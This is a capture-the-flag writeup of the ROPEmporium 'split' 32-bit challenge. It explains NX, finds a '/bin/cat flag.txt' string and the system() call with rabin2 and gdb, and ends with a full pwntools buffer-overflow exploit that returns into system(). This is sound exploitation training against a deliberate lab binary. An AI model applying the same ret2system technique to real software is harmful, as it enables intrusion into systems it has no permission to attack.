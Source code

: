 ```yaml
---
title: "ROPEmporium: split 32-bit"
date: 2021-05-24T14:38:00+02:00
---
```


# Writeup of split [split] on ROPEmporium

Prerequisites: Basic knowledge of assembly, disassembling tools, and having solved ret2win for 32bit

----------------------------

Let's start this time by checking the security settings of the binary with checksec.

```bash
cave@noobpwn:~/binexp/ROP-emperium/split_32$ checksec split32
[*] '/home/cave/binexp/ROP-emperium/split_32/split32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So NX is enabled, this means that we can't just put shellcode on the stack and return to it. NX is an exploit mitigation technique that marks memory regions as (N)on(X)ecutable. This means we can't just put a "/bin/sh" and jump to that, to get a shell. But again with ROP-emporium, we won't be getting a shell, instead we'll print the flag.txt file. So let's get started. This time around we'll be using the same tools as in "ret2win". If you've still not solved it, here are some hints, that doesn't give everything away:

Can't use strings on the binary? Use rabin2 -z <binary>!
Check the manpage for system, with "man system"

Remember that system uses an argument on top of the stack (x86 ftw). If we do:
payload += 0xdeadbeef
This will push 0xdeadbeef to the top of the stack. Can you use that then?

Okay let's continue now with spoilers.

We'll start by checking the strings:
```bash
cave@noobpwn:~/binexp/ROP-emperium/split_32$ rabin2 -z split32 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```
So we have a "/bin/cat flag.txt" in the data section of the program. If we run this command in the bash commandline, it will print the flag. Cool. Now if we look at the manpage for system:
```
system - execute a shell command
```
Cool. So we need to take that string and give it to system, so that this is the command run by the program. Great. Well that's not so difficult. Now let's find the system call. Open the file with gdb, and use the info function command, to see the functions in the binary.

```assembly
-pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x08048546  main
0x080485ad  pwnme
0x0804860c  usefulFunction
```
Another usefulFunction? Disassemble that.
```assembly
pwndbg> disass usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>: push   ebp
   0x0804860d <+1>: mov    ebp,esp
   0x0804860f <+3>: sub    esp,0x8
   0x08048612 <+6>: sub    esp,0xc
   0x08048615 <+9>: push   0x804870e
   0x0804861a <+14>:    call   0x80483e0 <system@plt>  <--- found you!
   0x0804861f <+19>:    add    esp,0x10
   0x08048622 <+22>:    nop
   0x08048623 <+23>:    leave  
   0x08048624 <+24>:    ret    
End of assembler dump.
```

We need to understand that the stack is a LIFO data structure. Last In First Out. The system will use the argument that is the last in. So let's look at what happens when we call the system, this is just an example, and there might be more nuances in practical use.

```
┌────────────┐
│            │
│ rand addr  │ <-- this is the top of the stack
│            │     which will be called by system
├────────────┤
│            │
│ rand addr  │
│            │
├────────────┤
│            │
│ rand addr  │
│            │
├────────────┤
│            │
│ rand addr  │
│            │
└────────────┘
```

We can use this knowledge to craft a simple payload in python!
```python
payload = A*44 #(padding)
payload += system + addr_catflag
```

The stack will then look like this, at the time when we return to system:
```
┌────────────┐
│            │ 
│ *cat flag  │ <- a pointer to the addr
│            │    that holds the cat flag cmd
├────────────┤
│            │
│ rand addr  │
│            │
├────────────┤
│            │
│ rand addr  │
│            │
└────────────┘
```
Nice! Now you should have the knowledge to craft your own payload.

**Conclusion: To call a function, like system we need to give it an argument. If no argument is provided by us, it will use the top of the stack. It's important to know, that without NX we would be able to write to the stack, and write a string like /bin/sh, and then we would get a shell. Since NX is enabled we have to use a string already present in the binary. Which we found in the beginning**


Exploit: 

```python
from pwn import *

elfPath="./split32"
context.arch="i386"

system = p32(0x0804861a) #calls system
cat_flag = p32(0x0804a030) #/bin/cat flag.txt


gdbscript= """
continue
"""

terminalSetting = ['gnome-terminal', '-e']
context.clear(terminal=terminalSetting)

io = pwnlib.gdb.debug(elfPath, gdbscript = gdbscript)

point=cyclic_find(b"laaa", endian="little")

def main():
    print(io.recvuntil("> "))

    #The reason for cat_flag to be after system is that system takes a pointer to a char buffer, 
    #the pointer is located in the esp
    #We add the string, which is now the esp. Making system use it
    
    print(io.send(b"A"*point+system+cat_flag))
    io.interactive() #Interactive state
```
